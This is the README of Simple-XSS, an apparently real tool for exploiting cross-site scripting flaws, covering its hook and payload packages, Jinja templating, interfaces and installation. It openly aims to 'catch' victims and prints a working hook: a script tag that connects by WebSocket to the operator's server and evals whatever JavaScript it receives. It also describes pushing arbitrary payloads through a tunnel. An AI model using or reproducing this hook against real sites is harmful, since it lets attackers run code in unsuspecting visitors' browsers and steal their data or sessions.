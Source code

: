 # Simple-XSS

<p align="center">
  <img src="res/big_logo.png"  alt="logo"/>
</p>

<a href="https://github.com/CrazyProger1/Simple-XSS/releases/download/V0.1/Simple-XSS-Windows-x64.zip"><img alt="GitHub all releases" src="https://img.shields.io/github/downloads/CrazyProger1/Simple-XSS/total"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/blob/master/LICENSE"><img alt="GitHub" src="https://img.shields.io/github/license/CrazyProger1/Simple-XSS"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/releases/latest"><img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/CrazyProger1/Simple-XSS"></a>

Simple-XSS is a multiplatform cross-site scripting (XSS) vulnerability exploitation tool. This application will help you
create a hook that can easily
and reliably catch a client by downloading a payload to their browser and executing it. You don't even need a white IP
for this because the application will take care of tunneling the connection between you and the victim.

## Usage

_To run application see [installation](#Installation) section._

### Hook

> _Hooks folder: [hooks](hooks)_

**Hook** is an HTML code snippet designed to be embedded in a vulnerable XSS form. It looks like:

```html

<script>c = new WebSocket('{{environment.public_url}}');
c.onmessage = (e) => eval(e.data);</script>
```

**NOTE:** _As you can see here is a built-in variable: {{environment.public_url}}. You can read more about
this below._

This is a [default](hooks/default) hook. When it's embedded in the vulnerable form, it downloads the JS
code ([payload](#payload)) via
WebSockets
protocol from the server and
executes it using [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Hook has the following structure:

```
|
+-- hook_folder
    |
    +-- hook.html
    |
    +-- package.toml
```

**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.

**package.toml** - metadata file, contains data about hook such as name, description, author and version.

### Payload

> _Payloads folder: [payloads](payloads)_

**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed
with [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Payload has the following structure:

```
|
+-- payload_folder
    |
    +-- payload.js
    |
    +-- package.toml
    |
    +-- init.py
```

**payload.js** - main file, contains arbitrary JS code.

**package.toml** - metadata file, contains data about payload such as name, description, author and version.

**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload
(payload.js) via WebSockets protocol.

### Templating

**Built-in objects** is an objects passed into hook & payload main files
using [Jinja](https://jinja.palletsprojects.com/)
templating engine. It contains additional information that may be needed when loading a hook or payload.

#### Environment

- public_url - public address of WebSocket server

#### Metadata

**package** - hook or payload

- **name** - name of package
- **author** - package author
- **version** - version of package
- **description** - package description

If you need to use some variable, just use such construction: {{object.variable}}.
For example:

```
alert('{{metadata.name}} - V{{metadata.version}}')
```

The provided payload code snippet will display an alert dialog showcasing the name and version of the payload.

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

![GUI](docs/GUI.png)

### WEB

![WEB](docs/WEB.png)

### Command-Line

![CLI](docs/CLI.png)

## Installation

### Windows

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

> Use `--help` argument to get help.

### Linux

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

> Use `--help` argument to get help.

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
